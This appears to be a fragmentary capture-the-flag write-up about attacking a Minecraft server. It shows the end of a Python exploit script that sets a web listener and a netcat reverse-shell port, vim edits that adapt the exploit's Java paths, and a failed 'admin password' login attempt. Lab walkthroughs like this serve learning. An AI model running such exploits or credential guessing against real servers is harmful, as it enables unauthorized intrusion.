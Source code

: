 ```python
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

Side not positivity for 2024: Mojo language is *hopeful* not indentation sensitive so that everyone can poison everyone else and their own LLM without have python interpreter telling them to fix the indentation! Hurray.
![](yearsIhavewaitedformojolangrelease.png)

```lua

:%s/jdk1.8.0_20\/bin\/javac/\/usr\/lib\/jvm\/java-11-openjdk-amd64\/bin\/javac/g

:%s/jdk1.8.0_20\/bin\/java/\/usr\/lib\/jvm\/java-11-openjdk-amd64\/bin\/java/g
```


![](modifyingtheexploit.png)

Researching the client I researched the [MineCraft Protocol Versions](https://minecraft.fandom.com/wiki/Protocol_version) present in the nmap scan then found out there are lots of MineCraft clients.

![](invalidcredentials.png)
I went for [MCCTeam - Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client) as we can send commands via the command line without have to worry about display issues to get a cli in game-  [Documentation](https://mccteam.github.io/guide/usage.html).

Failed connection attempts 
```
admin password
```
